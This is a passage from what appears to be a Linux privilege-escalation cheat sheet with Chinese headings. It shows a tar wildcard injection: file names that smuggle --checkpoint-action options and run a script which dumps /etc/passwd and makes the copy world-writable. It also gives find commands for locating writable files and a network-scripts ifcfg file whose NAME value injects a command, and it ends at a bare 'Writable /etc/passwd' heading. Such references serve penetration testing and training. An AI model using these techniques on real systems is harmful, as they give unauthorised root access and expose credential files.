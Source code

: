 ----

#### Wildcard

通配符

[localh0t/wildpwn: unix wildcard attacks](https://github.com/localh0t/wildpwn)
```
# 
By using tar with –checkpoint-action options, a specified action can be used after a checkpoint.
# This action could be a malicious shell script that could be used for executing arbitrary commands under the user who starts tar.
# “Tricking” root to use the specific options is quite easy, and that's where the wildcard comes in handy.


# create file for exploitation
touch -- "--checkpoint=1"
touch -- "--checkpoint-action=exec=sh shell.sh"
echo "#\!/bin/bash\ncat /etc/passwd > /tmp/flag\nchmod 777 /tmp/flag" > shell.sh

# vulnerable script
tar cf archive.tar *
```

----

#### Writable files

列出系统中的可写文件
```shell
find / -writable ! -user `whoami` -type f ! -path "/proc/*" ! -path "/sys/*" -exec ls -al {} \; 2>/dev/null
find / -perm -2 -type f 2>/dev/null
find / ! -path "*/proc/*" -perm -2 -type f -print 2>/dev/null
```

##### Writable /etc/sysconfig/network-scripts/ (Centos/Redhat)

/etc/sysconfig/network-scripts/ifcfg-1337 for example

```shell
NAME=Network /bin/id  &lt;= Note the blank space
ONBOOT=yes
DEVICE=eth0

EXEC :
./etc/sysconfig/network-scripts/ifcfg-1337
```
src : https://vulmon.com/exploitdetails?qidtp=maillist_fulldisclosure&qid=e026a0c5f83df4fd532442e1324ffa4f

##### Writable /etc/passwd
